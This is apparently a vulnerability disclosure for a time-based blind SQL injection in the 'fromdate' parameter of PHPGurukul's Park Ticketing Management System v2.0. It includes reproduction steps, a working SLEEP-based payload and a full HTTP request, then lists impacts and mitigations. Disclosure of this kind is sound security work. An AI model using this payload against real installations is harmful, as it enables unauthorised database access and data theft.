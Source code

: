 # SQL Injection Vulnerability in Park Ticketing Management System (foreigner-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `foreigner-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `fromdate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `foreigner-bwdates-reports-details.php`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Foreigner People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104250.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104317.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104504.png)
   
     attack payload    
```sql
POST /Park-Ticketing-Management-System-Project/ptms/foreigner-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://127.0.0.1
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-foreignerreports.php
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Dest: document
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Content-Length: 45

fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUx&todate=2025-07-17&submit=
```
    


## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  

